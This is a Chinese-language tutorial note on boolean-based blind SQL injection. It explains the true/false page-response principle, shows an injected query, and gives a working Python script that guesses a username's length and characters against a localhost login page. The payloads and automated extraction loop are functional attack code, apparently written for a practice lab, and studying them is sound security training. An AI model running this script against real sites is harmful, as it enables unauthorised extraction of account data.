 #### 类型三：布尔盲注

boolean 盲注

条件：
没有明显的回显点
只有得到两个结果，如果执行正常，页面不报错，执行不正常，页面报错

我们执行了我们自定义的sql语句，如果语句是正确的，或者说，语句内我们的猜测是正确的，就返回正常或者特定页面，否则返回错误页面或者其他特定页面


1 当我们猜对(sql执行正常)情况下，页面没有报错
2 当我们猜错(sql执行不下去)情况下，页面报错

基于上面的原理，我们可以发送大量的请求，来猜测我们需要的数据

```
username=admin&password=admin123
&不编码当做分隔符
&编码后当做数据传入
```

```sql
select id,username,password from user where username='sad' or substr(username,1,1)='a' and id=1#and password='8888';
```

盲注脚本

```python
import requests

url = "http://localhost/day7/login.php"

def check_username(username_length):
    username=""
    sts = "abcdefghijklmnopqrstuvwxyz"
    for i in range(username_length):
            for s in sts:
                data = {
                    "username":f"aa' or substr(username,{i+1},1)='{s}' and id=1;#",
                    "password":"ctf"
                }
                response = requests.post(url=url,data=data)
                print(f"正在测试第{i+1}位是否是"+s)
                if "成功" in response.text:
                    print(f"猜测正确，第{i+1}位是"+s)
                    username = username + s
                    break
    return username

def check_length():
    ret = 0
    for s in range(6):
        data = {
            "username":f"aa' or length(username)={s+1} and id=1;#",
            "password":"ctf"
        }
        response = requests.post(url=url,data=data)
        print(f"正在测试用户名是否是{s+1}位")
        if "成功" in response.text:
            print(f"猜测正确，用户名是{s+1}位")
            ret = s+1
            break
    return ret

if __name__=="__main__":
    username_length = check_length()
    username = check_username(username_length)
```